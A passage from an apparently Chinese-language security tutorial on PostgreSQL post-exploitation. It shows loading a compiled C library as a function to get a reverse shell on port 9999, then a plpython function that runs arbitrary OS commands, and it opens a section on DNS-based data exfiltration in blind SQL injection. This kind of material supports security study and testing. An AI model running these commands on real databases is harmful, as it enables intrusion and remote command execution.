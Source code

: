 ```
gcc 1.c -I`pg_config --includedir-server` -fPIC -shared -o /tmp/1.so
```
  
在 pgsql 里执行：   
  
```
CREATE OR REPLACE FUNCTION exec()  RETURNS text AS  '/tmp/1.so', 'exec' LANGUAGE C STRICT;
select exec();
```
  
监听的 9999 端口得到一个 shell：  
  
![pic1](20161018_02_pic_001.png)    
  
### Python
默认 PostgreSQL 不会安装 Python 的扩展，在 Ubuntu 下可以通过：   
  
```
apt-get install postgresql-plpython-9.1
```
  
进行安装，除了 python 的扩展，还有 sh、perl、ruby 等等。  
  
安装完成后，首先是创建一个 UDF 来执行我们要执行的命令： 
  
```
CREATE FUNCTION system (a text)
  RETURNS text
AS $$
  import os
  return os.popen(a).read()
$$ LANGUAGE plpython2u;
```
  
其中的 plpython2u 可以利用如下语句获取：  
  
```
select * from pg_language;
```
  
我们可以根据返回来判断利用哪个语言（plpython2u、plpythonu、plpython3u 等等）。   
  
![pic2](20161018_02_pic_002.png)    
  
创建好 UDF 后，直接调用如下语句即可：  
  
```
select system('ls -la');
```
  
![pic3](20161018_02_pic_003.png)    
  
此外，sh、ruby 等同理，可以参考官方文档来写一个 UDF。   
  
文档地址：http://www.postgresql.org/docs/8.2/static/server-programming.html   
  
## DNS 请求获取数据
同样的，PostgreSQL 可以通过 DNS Request 一样获取数据，在盲注的情况下。  
  